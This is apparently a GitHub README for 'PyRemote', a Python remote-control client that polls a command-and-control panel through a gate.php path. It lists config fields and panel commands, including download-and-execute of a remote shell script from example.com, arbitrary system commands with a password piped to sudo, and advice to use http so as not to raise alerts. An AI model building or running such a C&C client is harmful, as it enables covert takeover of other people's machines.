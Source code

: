 # PyRemote
Python script to machine remote control

## About
Script to control you PC from panel. Working on Python 2/3 by using urllib/2/3

## Panel
I don\`t upload panel here but if u want, I can do this. 

## Config
`_scheme` - http(-s) C&C protocol. I recomended http to false start alerting.

`_host` - you domain

`_gate` - path to gate.php

`_sleep` - sleep before receive command from C&C

`_save` - dir to save without slash in end. '/tmp' - for save in temporary dir and '.' - to save in script dir

`_ext` - list of ext what need add to name if it is in link

## Commands from panel
`d&e` - Download & Execute
- `d&e||https://example.com/bash.sh`

`o_s` - Open Site, just send GET request to site
- `o_s||https://www.google.com`

`de&agr` - Download&Execute with agrs
- `d&e||https://example.com/bash.sh||-a 100 -b 90 -c -`

`sys` - run command in system console
- `sys||echo "passsword1"|sudo -S apt-get update&&sudo apt-get upgrade`
